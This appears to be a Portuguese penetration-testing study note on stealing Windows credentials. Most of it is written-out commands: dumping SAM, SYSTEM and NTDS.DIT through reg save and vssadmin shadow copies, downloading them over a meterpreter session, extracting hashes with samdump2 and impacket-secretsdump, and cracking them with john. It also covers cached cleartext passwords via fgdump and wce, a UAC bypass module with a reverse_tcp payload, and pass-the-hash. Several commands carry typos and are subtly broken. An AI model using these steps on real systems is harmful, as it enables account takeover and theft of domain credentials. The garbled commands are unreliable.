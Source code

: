##   Hashes e Senhas - Windows

Introdução: Hashes em Windows

**SAM - Security Account Manager (Windows)**

Armazena as contas de usuários

%SystemRoot%/system32/config/sam

**NTDS.DIT (Windows Server / Active Directory)**

Armazena dados do AD incluindo as contas de usuários

%SystemRoot%/ntds/ntds.dit

**SYSTEM**

Arquivo do sistema necessário para decriptar o SAM/NTDS.DIT

%SystemRoot%/system32/config/system

Obs: Os arquivos acima são protegidos quando estão em execução, ou seja você não consegue copia-los quando estiverem em uso.

**Possivel solução para acesso aos arquivos**

**LOCALMENTE**

Acesso fisico ao computador? Realizar boot com live cd e capturar os arquivos.

**REMOTAMENTE**

C:\Windows\repair (apanesa sistema antigos como XP/2003)

Salvar direo do registro do windows (Desde versões antigas a versões recentes)

Ex: reg save hklm\sam

Cópia somnbra do volume (Versões mais recentes)

Ex: vssadmin


**ATAQUE**

Obter os arquvios e usá-los para obter os hashes

Tentar descobrir os hashes obtidos

**OUTRAS TÈCNICAS**

Senhas em memória/cache - Utilizar técnicas para obter senhas em cache ou na memória do Sistema.

Pass The Hash - Técnica para utilizar um hash sem precisar quebrá-lo

Captura de hashes na rede

**Exemplo de Hashes no Windows**

**Usuário   ID    LM(LAN MANAGER)   -   NTLM(NT LAN MANAGER)**

Administrador:500:aa.......................ee:ae..........................:::

rafaela:1005:aa...........................ee == vazio (significa que não está usando LM então se torna mais fácil de quebrar.)

Obs: ID = 500 - Corresponde a uma conta de administrador.




## Obtendo hashes: Sistemas Antigos

`getuid` - Comando para saber qual o seu nivel de permissão.

C:\WINDOWS\system32\config  - Local onde ficam armazenados as senhas

C:\WINDOWS\repair - Backup das senhas

`download sam` -> comando para fazer download do sam 

`download system` -> comando para fazer download do system 

Obs: o comando download é utilizado dentro do meterpreter

samdump2 - Aplicação para  idenficar os hashs baixados.

Obtendo system e sam diretamente do reg do windows.

`shell`

`C:\> reg /?`

`C:\> reg save hklm\sam samOK`

`C:\> reg save hklm\system systemOK`

`C:\> exit`

`meterpreter> download samOK`

`meterpreter> download systemOK`

`root@kali:/home/# samdump2 systemOK samOK`

Obs: baixar os arquivos direto do reg você baixa o arquvivo mais atualizado.

Outra aplicação para extrair as hashs

`impacket-secretsdump -sam samOK -system -systemOK LOCAL`




## Obtendo hashes: Sistemas Modernos

Salvando registro sam na area de trabalho do windows

- Execute o cmd como administrador
- reg save hklm\sam sam10
- reg save hklm\system system10

Exploit para ByPass em UAC (User Local Acont)

*Obs: Para utilizar este exlploit voce dever ja ter uma sessão aberta com o alvo.*

- search uac
- exploit(windows/local/ask)
- Payload options (windows/meterpreter/reverse_tcp):

*Obs: Para esse exploit ter sucesso tambem é preciso que o usuario da maquina alvo clique em sim na janela que irar abrir no alvo.*




## Obtendo hashes: Servidores AD

`C:\> cd windows`

`C:\Windows> cd ntds`

`C:\Windows\NTDS>dir`

ntds.dit --> Arquivo que possui as credenciais do Active Director, so que o mesmo não pode ser acesso de forma direta, então sera necessario fazer os proximos passos para obtermos as informações contidas no arquivo.

vssadmin - utilitario para criar uma copia sombra dos volumes que tem no windows.

`C:\>vssadmin list volumes`

`C:\>vssadmin create shadow /forc=c`

`C:\>copy DADOS_DO_SHADOW_COPY_VOLUME_NAME\windows\ntds\ntds.dit c:\ntds.dit`

`C:\>copy DADOS_DO_SHADOW_COPY_VOLUME_NAME\windows\system32\config\system c:\system12`

`C:\>copy DADOS_DO_SHADOW_COPY_VOLUME_NAME\windows\system32\config\sam c:\sam12`

`meterpreter > download sam12`

`meterpreter > download system12`

`meterpreter > download ntds.dit`

`impacket-secretdump -sam sam12 -system system12 LOCAL`

`impacket-secretdump -ntds ntds.dit -system system12 LOCAL`

**Descobrindo hashes **

`john --fotmat=lm hash.txt`

Obtendo hashes e senhas em cache

fgdump.exe --> Permite conseguir acessar informações que estão na cache, credenciais. 

type arquivo.pwdump

type arquivo.cachedump

wce-universal.exe --> Ler informações de cache e exibe credenciais em texto claro.

wce-universal.exe -w



